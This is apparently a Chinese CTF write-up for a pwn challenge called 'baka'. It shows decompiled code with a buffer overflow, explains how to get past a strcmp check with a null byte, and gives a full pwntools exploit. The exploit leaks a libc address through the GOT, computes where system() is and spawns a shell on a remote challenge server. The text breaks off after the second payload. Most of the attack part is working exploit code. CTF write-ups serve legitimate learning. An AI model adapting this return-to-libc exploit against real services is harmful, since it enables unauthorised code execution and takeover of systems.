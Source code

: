 ```
void __cdecl read_buffer()
{
  char s; // [sp+10h] [bp-28h]@1

  memset(&s, 0, 0x14u);
  read(0, &s, 0x100u);
  if ( strcmp(&s, "I'm baka!\n") )
  {
    puts("...you are so boring.");
    fflush(0);
    exit(1);
  }
  puts("LOL, I agree with u!");
  fflush(0);
}
```

可以看出，在read处有溢出，但是如果strcmp的结果不是"I'm baka!\n"，就会直接exit，就无法利用溢出。

由于strcmp是根据\x00截断的，所以构造将payload的头部构造成：`"I'm baka!\n" + '\x00'*2 + 'a'*28 + 'bbbb'`就可以绕过检查。

接下来就有**三种方法**可以做这道题目了。

先说low一点的，我们先根据提示，下载libc-2.24.so。
libc-2.24.so下载地址：链接：http://pan.baidu.com/s/1slrWTop 密码：zsj2

有了libc，方法就简单了，先根据got表leak read函数的真实地址，然后根据现有的libc算出system和read的偏移，从而得到system的真实地址，然后向bss段写入字符串"/bin/sh\x00"，在执行system就可以拿shell了。

poc如下：

```python
from pwn import *
#context.log_level = 'debug'

baka = ELF('baka')
libc = ELF('libc-2.24.so')
#libc = ELF('/lib32/libc.so.6')
stuff = "I'm baka!\n" + '\x00'*2 + 'a'*28 + 'bbbb'
p1ret=0x08048375
p3ret=0x0804862d
base_bss = 0x0804a034
#///////////////////

#cn = process('baka')
cn = remote('121.42.206.184', 10001)

print cn.recv()# come on, pwn me!cat 
p1 = stuff + p32(0x080485ae) + p32(baka.got['read'])
print '\n###send payload 1###'
cn.sendline(p1)
print cn.recvuntil('u!\n')#agree with u!
p_read = u32(cn.recv(4))

p_system = p_read - libc.symbols['read'] + libc.symbols['system']

cn.recv()

p2 = stuff + p32(p_read) + p32(p3ret) + p32(0) + p32(base_bss) + p32(10) + p32(p_system) + 'bbbb' + p32(base_bss)

print '\n###send payload 2###'
cn.sendline(p2)
cn.recvuntil('u!\n')#agree with u!
cn.send('/bin/sh\0')
time.sleep(0.3)
```